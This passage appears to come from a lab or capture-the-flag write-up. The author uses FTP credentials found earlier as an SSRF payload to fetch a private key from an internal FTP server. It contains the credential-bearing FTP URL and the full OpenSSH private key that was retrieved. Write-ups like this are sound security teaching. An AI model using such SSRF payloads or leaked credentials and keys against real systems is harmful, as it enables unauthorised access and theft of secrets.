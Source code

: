 I used the FTP credentials as an SSRF payload from the previous step. We observed there is a private key. I attempt to view it.

![Untitled](Untitled%209.png)

With this payload, I will attempt to view the private key located at the following FTP URL: **`ftp://ftp_admin:u3jai8y71s2@ftp.local/private-8297.key`**.

```xml
-----BEGIN OPENSSH PRIVATE KEY-----
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
XxwXArPr6+HQe9hZSjI2hjYC2OU=
-----END OPENSSH PRIVATE KEY-----
```

